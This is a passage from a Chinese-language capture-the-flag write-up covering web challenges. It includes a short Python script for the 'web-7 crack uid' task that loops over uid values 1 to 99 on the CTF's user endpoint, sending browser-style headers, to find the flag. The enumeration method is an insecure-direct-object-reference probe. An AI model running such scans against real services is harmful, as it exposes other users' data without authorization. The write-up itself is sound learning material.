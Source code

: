 构造请求，获取flag

![postman再次](./web-6-2.png)

## web-7 破解uid

简单试了一下，uid范围大概是1-99，写个程序遍历一下，看看输出什么

```python
import requests

url = "https://dior-ctfd.dun.mi.com/user?uid={}"

payload = {}
headers = {
    'authority': 'dior-ctfd.dun.mi.com',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'accept-language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'cache-control': 'max-age=0',
    'cookie': 'xxx', # TODO cookie
    'sec-ch-ua': '"Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"macOS"',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'none',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
    'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'
}
for uid in range(1, 100):
    response = requests.request("GET", url.format(uid), headers=headers, data=payload)
    print(uid, response.text)
```
